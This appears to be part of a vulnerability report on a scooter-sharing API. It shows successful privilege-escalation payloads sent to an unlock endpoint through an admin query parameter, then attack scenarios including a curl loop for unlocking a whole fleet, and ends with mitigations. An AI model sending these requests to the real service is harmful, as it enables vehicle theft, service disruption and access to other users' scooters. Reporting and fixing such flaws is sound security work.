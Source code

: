 ### SUCCESS 37-41: privilege=admin Parameter
```
POST /api/application/vehicles/unlock?privilege=admin
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "force": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "admin": true}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "scope": "admin"}
- Payload: {"serial_number": "TUF061", "lat": 48.8566, "lng": 2.3522, "role": "admin"}
```

---

## 🚨 Attack Scenarios

### Scenario 1: Mass Scooter Unlock
**Description**: Attacker uses admin privileges to unlock entire scooter fleet
**Impact**: Complete service disruption, financial loss
**Method**: 
```bash
for scooter in fleet:
    curl -X POST "https://api.knotcity.io/api/application/vehicles/unlock?admin=true" \
      -H "Authorization: Bearer [TOKEN]" \
      -d '{"serial_number": "'$scooter'", "lat": 48.8566, "lng": 2.3522, "force": true}'
```

### Scenario 2: Force Unlock Restricted Scooters
**Description**: Attacker unlocks scooters that are normally restricted
**Impact**: Bypass safety restrictions, unauthorized access
**Method**: Use `?force=true` parameter to override normal restrictions

### Scenario 3: Cross-Account Scooter Access
**Description**: Attacker unlocks scooters belonging to other users
**Impact**: Unauthorized access to other users' scooters
**Method**: Use admin privileges to access any scooter in the system

### Scenario 4: Persistent Admin Access
**Description**: Attacker maintains admin privileges across sessions
**Impact**: Long-term unauthorized access
**Method**: Admin privileges persist as long as token is valid

---

## 🛡️ Recommended Mitigations

### Immediate Actions (Critical)
1. **Disable query parameter privilege escalation**
   - Remove all admin query parameter handling
   - Implement proper role-based access control

2. **Implement proper authentication**
   - Validate user roles server-side
   - Use proper JWT token validation with role claims
